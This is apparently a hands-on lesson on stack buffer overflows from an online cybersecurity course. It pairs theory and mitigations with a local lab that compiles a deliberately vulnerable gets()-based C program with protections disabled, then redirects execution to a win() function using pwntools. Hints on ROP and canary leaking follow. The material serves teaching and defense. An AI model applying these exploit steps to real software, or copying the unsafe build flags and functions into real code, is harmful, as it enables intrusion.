

<!-- SPDX-License-Identifier: GPL-3.0-or-later | Copyright (C) 2026 Nithees Narendra S -->
[Home](../../README.md) › [Vulnerabilities](README.md) › **Buffer Overflows**

# Buffer Overflows

Bounds-check failures, overwrite targets, shellcode and mitigation-aware exploitation.

<div class="meta-row"><span class="badge b-advanced">Advanced</span><span class="badge">⌨ ~72 min hands-on</span><span class="badge">📖 ~24 min read</span><button id="lesson-complete" class="lesson-check"><span class="lbl">Mark complete</span></button></div>

**▶ Here to build, not read? Jump to the [Hands-On Practice](#hands-on-practice).**

**Prerequisites:** [C](../00-foundations/c.md) · [Assembly Language](../00-foundations/assembly.md) · [Computer Architecture](../00-foundations/computer-architecture.md) · [Memory Corruption](memory-corruption.md)

## Overview

A buffer overflow occurs when a program writes more data into a fixed-size memory region
than it can hold, corrupting whatever lies adjacent. In languages without automatic bounds checking — chiefly
C and C++ — the adjacent memory can be other variables, heap metadata, or, most usefully to an attacker, saved
control data such as a function's return address. By overwriting that control data with a chosen value, an
attacker redirects the program's execution.

The overflow itself is only the *primitive*. Turning it into reliable code execution is a second discipline
of defeating the mitigations layered on modern systems: stack canaries, non-executable memory (NX/DEP),
address space layout randomisation (ASLR), and control-flow integrity. Studying overflows teaches you how a
CPU actually runs code — the stack, calling conventions, and memory layout — which is why it remains a
cornerstone of exploitation and reverse-engineering education.

### How it works

When a function is called on x86-64, the return address is pushed to the stack; the
function then allocates local buffers below it. A `char buf[64]` sits at a lower address than the saved return
address, and a copy loop that does not check length writes *upward* toward it:

```
higher addresses
   [ saved return address ]  <- overwrite this to hijack control
   [ saved base pointer    ]
   [ char buf[64]          ]  <- write starts here, grows up
lower addresses
```

Overflow `buf` by enough bytes and you reach the saved return address. Replace it with the address of code you
control and, when the function returns, execution jumps there. The classic exploit places shellcode in the
buffer and points the return address at it; on modern systems, where the stack is non-executable, the return
address instead points at a chain of existing code fragments (ROP) that call `mprotect` or `system`.



<div class="card"><div class="card-title">🔑 Key terms</div>

- **Return address** — The saved location a function returns to — the prime overwrite target on the stack.
- **Stack canary** — A random value placed before the return address and checked on return to detect overflow.
- **NX / DEP** — Marks memory non-executable so injected shellcode on the stack cannot run.
- **ASLR** — Randomises memory layout so attackers cannot predict addresses without a leak.
- **ROP (Return-Oriented Programming)** — Chaining existing code 'gadgets' ending in `ret` to compute despite NX.
- **ret2libc** — Redirecting execution to an existing libc function (e.g. `system`) instead of injected code.

</div>

> [!EXAMPLE] **In the wild.** **SQL Slammer (January 2003).** A single 376-byte UDP packet exploited a stack buffer overflow
in Microsoft SQL Server's resolution service, needing no disk write and spreading purely in memory. It
infected most vulnerable hosts on the internet within ten minutes and disrupted ATMs and airline systems.
Extract the lesson: an unauthenticated overflow in a network-facing service is among the most dangerous bugs
that exist, and a patch had been available for six months.

## Hands-On Practice

> [!TIP] This is the main event. Bring up the lab, then work the walkthrough — every command has a **▸ Run** button (needs the lab runner) and a **📋 Copy** button. ~72 min, Kali attacker, fully local.

**Mission.** Take a vulnerable C program from crash to a called win() function, then watch each mitigation break the exploit.

```cf-lab
{"title": "Vulnerabilities", "section": "04-vulnerabilities", "targets": [["bWAPP / DVWA / Juice Shop", "the web bug targets (see the Web Security part environment)"], ["pwn-box", "Ubuntu build/debug container for buffer/heap/format-string labs"]], "compose": "# vuln-lab/docker-compose.yml  —  Vulnerabilities part environment\nservices:\n  bwapp:\n    image: raesene/bwapp\n    ports: [\"8081:80\"]\n    networks: [labnet]\n  dvwa:\n    image: vulnerables/web-dvwa\n    ports: [\"8082:80\"]\n    networks: [labnet]\n  pwn-box:\n    image: ubuntu:22.04\n    container_name: pwn-box\n    cap_add: [\"SYS_PTRACE\"]          # allow gdb inside the container\n    security_opt: [\"seccomp=unconfined\"]\n    command: sleep infinity\n    networks: [labnet]\n\nnetworks:\n  labnet:\n    driver: bridge"}
```

**Target for this lesson:** the `pwn-box` build container (compile the vulnerable C yourself). Full setup: [Vulnerabilities lab environment](README.md#lab-environment).

### Guided walkthrough

<div class="stepper">

```cf-step
{"n": 1, "goal": "Write and compile the target (mitigations off)", "cmd": "gcc -fno-stack-protector -z execstack -no-pie -g vuln.c -o vuln   # vuln.c: gets(buf) + a win() fn", "output": "A binary that reads input into a fixed buffer with no bounds check.", "why": "We turn mitigations off first to see the raw bug before defeating defences.", "runnable": true}
```
```cf-step
{"n": 2, "goal": "Trigger the crash", "cmd": "python3 -c 'print(\"A\"*200)' | ./vuln", "output": "Segmentation fault (core dumped)", "why": "You overwrote the saved return address with 0x41414141 — control of execution is near.", "runnable": true}
```
```cf-step
{"n": 3, "goal": "Find the exact offset", "cmd": "pwn cyclic 200 | ./vuln    # then in gdb: pwn cyclic -l $rsp_value", "output": "Offset to return address: 72", "why": "Precise offset means you can place your target address exactly on the return slot.", "runnable": true}
```
```cf-step
{"n": 4, "goal": "Redirect to win() (ret2win)", "cmd": "python3 -c 'import pwn; print(pwn.flat(b\"A\"*72, pwn.p64(WIN_ADDR)))' | ./vuln", "output": "Congratulations — win() executed and printed the flag.", "why": "You controlled RIP and called code of your choosing — the essence of exploitation.", "runnable": true}
```
```cf-step
{"n": 5, "goal": "Turn mitigations on and watch it break", "cmd": "gcc -fstack-protector-all -pie -o vuln2 vuln.c   # then re-run your exploit", "output": "*** stack smashing detected ***  (canary), and PIE randomises WIN_ADDR", "why": "Each mitigation removes an assumption; real targets need leaks + ROP (next chapter).", "runnable": true}
```

</div>

### Live terminal

```cf-terminal
{"title": "kali@buffer-overflow — start the lab runner for a live shell"}
```

### Try it yourself

> [!NOTE] Try each for real. Open the hint only when stuck, the solution only to check.

**Challenge 1.** Rebuild with NX (drop -z execstack) and achieve execution with a ret2libc/ROP chain.

<details><summary>Hint</summary>

You can't run shellcode on the stack now; reuse existing code.

</details>
<details><summary>Solution</summary>

Use pwntools' ROP: `rop.call(system, [bin_sh])` after leaking a libc address.

</details>

**Challenge 2.** Defeat the stack canary by leaking it first.

<details><summary>Hint</summary>

A format-string or over-read can disclose the canary before you overwrite it.

</details>
<details><summary>Solution</summary>

Read the canary, include it unchanged in your payload, then overwrite past it.

</details>

**Challenge 3.** Explain, with checksec output, exactly which mitigation stopped each exploit attempt.

<details><summary>Hint</summary>

`checksec ./vuln` reports Canary/NX/PIE/RELRO.

</details>
<details><summary>Solution</summary>

Map each failure: canary→abort, NX→no shellcode, PIE→wrong address, to the checksec flags.

</details>

### Quick quiz

```cf-quiz
{"q": "Which mitigation forces attackers from stack-shellcode to ROP/ret2libc?", "options": ["ASLR", "Stack canary", "NX / DEP", "PIE"], "answer": 2, "explain": "NX marks the stack non-executable, so injected shellcode can't run — attackers must reuse existing executable code (ROP/ret2libc)."}
```

### Detect & defend (blue-team view)

- On real systems, a crash/abort in a network service (segfault, 'stack smashing detected') is a probe signal — monitor core dumps and service restarts.
- Exploit mitigations (ASLR/NX/CET) are the primary 'detection' here — they convert bugs into crashes instead of compromise.

### Skills check

You can move on when you can, without notes:

- [ ] Crash a vulnerable binary and find the return-address offset precisely.
- [ ] Achieve controlled execution (ret2win) with pwntools.
- [ ] Explain how canary, NX and PIE each break the classic exploit.

### Going deeper — From crash to control — the modern pipeline

Exploit development is methodical:

1. **Fuzz / trigger** a crash and capture the state (a controlled `RIP` is the goal).
2. **Find the offset** to the return address with a cyclic pattern:
   ```bash
   pwn cyclic 200            # send as input
   pwn cyclic -l 0x6161616c  # look up the crashing value -> exact offset
   ```
3. **Assess mitigations**: `checksec ./vuln` reports canary, NX, PIE, RELRO.
4. **Build the primitive** appropriate to the mitigations:
   - No canary, no NX → inject shellcode, jump to it.
   - NX on → ROP chain to `mprotect`/`system` (ret2libc).
   - PIE/ASLR on → first leak an address to defeat randomisation, then ROP.
5. **Stabilise** the exploit for reliability.

A minimal pwntools skeleton:

```python
from pwn import *
elf = context.binary = ELF('./vuln')
p = process()
offset = 72
rop = ROP(elf)
rop.call(elf.symbols['win'])            # ret2win in the mitigations-off lab
p.sendline(b'A'*offset + rop.chain())
p.interactive()
```


### Going deeper — Why the mitigations matter

Each mitigation removes one assumption the classic exploit relied on:

- **Canary** breaks 'overwrite the return address undetected' — you must leak or avoid it.
- **NX** breaks 'run shellcode on the stack' — forces code reuse (ROP/ret2libc).
- **ASLR/PIE** breaks 'I know where things are' — forces an information leak first.
- **CET / shadow stack** breaks ROP's return-address rewriting — the frontier.

Rebuild the same exploit as you enable each one in the lab; feeling the exploit break and re-developing it is
how the theory becomes intuition.


## Check Yourself

_Quick self-test — answers hidden. If you can't answer without notes, redo the relevant walkthrough step._

**Q1. In one sentence, what security problem does Buffer Overflows address or create?**

<details><summary>Show answer</summary>

Buffer Overflows matters because its behaviour determines where trust is placed; misplacing that trust is the root of the associated bug class.

</details>

**Q2. Name one trust boundary involved in Buffer Overflows and what crosses it.**

<details><summary>Show answer</summary>

Any point where attacker-influenced data meets privileged processing — e.g. user input reaching an interpreter, or a token reaching a verifier.

</details>

**Q3. Give one attack against Buffer Overflows and the single control that most reduces its impact.**

<details><summary>Show answer</summary>

State the attack precisely, then the *primary* control (validation, encoding, isolation, authentication, or least privilege) — not a laundry list.

</details>

**Interview angles**

- Walk me through how Buffer Overflows works, then tell me where you would attack it.
- How would you detect Buffer Overflows being abused in an environment you defend?
- What is the difference between mitigating and eliminating the risk associated with Buffer Overflows?

## Pitfalls & Best Practice

**Common mistakes**

- Testing exploits with mitigations off and assuming they work in the real, hardened target.
- Confusing the overflow (the bug) with the exploit (defeating canary/NX/ASLR to weaponise it).
- Using `strcpy`/`gets`/`sprintf` in new C code instead of bounded, length-checked APIs.
- Ignoring integer overflows that produce undersized allocations feeding the buffer bug.
- Assuming ASLR alone is protection without an accompanying leak-resistance analysis.

**Do this instead**

- Prefer memory-safe languages (Rust, Go) for new code handling untrusted input.
- In C/C++, use bounded APIs, compile with all mitigations, and run ASAN/UBSan in CI.
- Fuzz parsers continuously; most memory-corruption bugs are found fastest by coverage-guided fuzzing.
- Enable and verify canary, NX, full RELRO, PIE and CET where the toolchain supports them.
- Treat any out-of-bounds write as critical regardless of whether you can immediately exploit it.

## Reference

### MITRE ATT&CK Mapping

_No single ATT&CK technique maps cleanly to this concept. Once you apply it offensively or defensively, map the specific behaviour using the [ATT&CK](../14-threat-intelligence/mitre-attack.md) chapter._

### OWASP Mapping

- See [OWASP Top 10](../03-web-security/owasp-top-10.md) for the relevant category when this applies to web systems.

### CWE Mapping

| CWE | Weakness |
| --- | --- |
| [CWE-120](https://cwe.mitre.org/data/definitions/120.html) | Buffer Copy without Checking Size |
| [CWE-787](https://cwe.mitre.org/data/definitions/787.html) | Out-of-bounds Write |

### CAPEC Mapping

| CAPEC | Attack pattern |
| --- | --- |
| [CAPEC-100](https://capec.mitre.org/data/definitions/100.html) | Overflow Buffers |

### CVE References

- [CVE-2014-0160](https://nvd.nist.gov/vuln/detail/CVE-2014-0160)

### NIST References

- [NIST CSRC Publications](https://csrc.nist.gov/publications) — search for the control family or guide relevant to this topic.

### RFC References

- No governing RFC for this topic. Where a protocol is involved, its RFC is linked from the relevant networking chapter.

### Research Papers

- *Smashing the Stack for Fun and Profit* — Aleph One, 1996

### Books

- *Hacking: The Art of Exploitation, 2nd ed.* — Jon Erickson
- *The Shellcoder's Handbook, 2nd ed.* — Anley et al.
- *A Guide to Kernel Exploitation* — Perla & Oldani

### Official Documentation

- [MITRE ATT&CK](https://attack.mitre.org/)
- [OWASP](https://owasp.org/)
- [NIST CSRC Publications](https://csrc.nist.gov/publications)

### Related Chapters

- [Stack-Based Overflows](stack-overflow.md)
- [Heap-Based Overflows](heap-overflow.md)
- [Format String Vulnerabilities](format-strings.md)
- [Exploit Development](../06-offensive-security/exploit-development.md)
- [Vulnerability Taxonomy](vulnerability-taxonomy.md)
- [SQL Injection](sql-injection.md)

---

_Part of the **Vulnerabilities** section of [Cybersecurity-Mastery](../../README.md). 🟠 Advanced · ~72 min hands-on · Last updated 2026-08-13._
